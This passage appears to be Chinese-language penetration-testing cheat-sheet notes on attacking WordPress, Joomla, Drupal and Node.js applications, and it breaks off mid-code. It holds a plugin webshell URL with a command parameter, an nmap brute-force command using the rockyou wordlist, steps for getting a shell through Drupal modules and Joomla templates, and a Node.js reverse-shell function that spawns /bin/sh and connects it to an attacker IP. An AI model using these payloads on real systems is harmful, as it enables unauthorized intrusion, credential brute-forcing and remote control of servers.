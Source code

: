 ```
set LPORT 443;\
run"

http://10.11.1.250/wp-content/plugins/plugin-shell-2/plugin-shell.php?cmd=whoami
```

### joomla
+ droopescan supported.

```
joomscan -u http://$tip/

#nmap script brute
nmap --script http-joomla-brute --script-args='userdb=./users.txt,passdb=/usre/share/wordlists/rockyou.txt,http-joomla-brute.hostname=192.168.3.45,http-joomla-brute.threads=3,brute.firstonly=true' 192.168.3.45
```
1. 3.7.0  sql 注入
2. 登录后，修改template页面 beez3 index.php ，get shell

### drupal cms
+ sql注入、反序列化RCE、module rce，参考DC-7
+ 自定义module上传后rce，[参考](https://www.drupal.org/project/drupal/issues/3093274)
+ 已有module上传后rce, [down](https://www.drupal.org/project/php)，过程参考hacking articals [walkthrough](https://www.hackingarticles.in/dc7-vulnhub-walkthrough/)
+ drupal scan, [droopescan](https://github.com/SamJoan/droopescan)

```
#drush 重置账号密码
drush user-password admin --password="hello123"

#module Rce 
upload tar -- install tar -- enable module
set attack ip port
preview   -- get shell

# droopescan, version/path
## installed in pt3, pip
pip install droopescan

droopescan scan --help
droopescan scan drupal -u example.org
 droopescan scan -u example.org

```

### Nodejs-RCE
+ express middleware
+ function rce - pg dibble

```bash
# test
(function(){
   return 2+2;
})();

# rce function
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(21, "192.168.118.8", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
```